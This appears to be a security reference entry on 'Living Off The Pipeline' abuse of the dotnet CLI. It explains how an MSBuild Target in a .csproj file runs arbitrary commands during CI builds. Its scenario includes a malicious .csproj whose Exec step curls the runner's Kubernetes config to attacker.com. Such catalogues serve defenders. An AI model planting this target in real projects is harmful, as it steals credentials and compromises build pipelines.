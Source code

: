 ```yaml
---
layout: tool
title: dotnet
tags: [cli, config-file, eval-sh]
references:
- https://learn.microsoft.com/en-us/visualstudio/msbuild/exec-task
- https://learn.microsoft.com/en-us/visualstudio/msbuild/msbuild-targets
files: [".csproj", ".vbproj"]
---
```


## Living Off The Pipeline - dotnet

The `dotnet` command-line interface (CLI) is the primary tool for building and running .NET applications. It uses MSBuild project files (e.g., `.csproj`), which can be manipulated by an attacker to execute arbitrary code, making `dotnet` a powerful "Living Off The Pipeline" (LOTP) tool.

### First-Order LOTP Tool

`dotnet` is a **First-Order LOTP Tool**. It provides direct Remote Code Execution (RCE) by processing a malicious `.csproj` file during a standard build process.

#### Malicious Primitive: Remote Code Execution (RCE)

A `.csproj` file is not just a data file; it is an executable MSBuild script. It can contain "Targets," which are blocks of code that run at specific points in the build lifecycle. An attacker can define a malicious `Target` that uses the `<Exec>` task to run an arbitrary shell command.

When a CI/CD pipeline runs a standard command like `dotnet build` or `dotnet test`, the MSBuild engine will parse the malicious `.csproj` file and execute the attacker's payload.

### Real-World Attack Scenario

1.  **Attacker's PR:** An attacker submits a pull request with a modified `.csproj` file containing a malicious `Target`. The `BeforeTargets="Build"` attribute ensures it runs before the main compilation.
    ```xml
    <Project Sdk="Microsoft.NET.Sdk">

      <PropertyGroup>
        <OutputType>Exe</OutputType>
        <TargetFramework>net8.0</TargetFramework>
      </PropertyGroup>

      <Target Name="Pwned" BeforeTargets="Build">
        <Exec Command="curl --data-binary @$HOME/.kube/config http://attacker.com/" />
      </Target>

    </Project>
    ```

2.  **Vulnerable Workflow:** The pipeline contains a completely standard command to build the project.
    ```yaml
    - name: Build .NET application
      run: dotnet build
    ```

3.  **Execution:**
    *   The `dotnet build` command is executed.
    *   The MSBuild engine parses the attacker's `.csproj` file.
    *   It finds the `Pwned` target and executes it before the `Build` target.
    *   The attacker's `Exec` command runs, exfiltrating sensitive files from the CI runner.

This attack is dangerous because the CI/CD workflow file is benign. The malicious payload is hidden inside the project's main configuration file.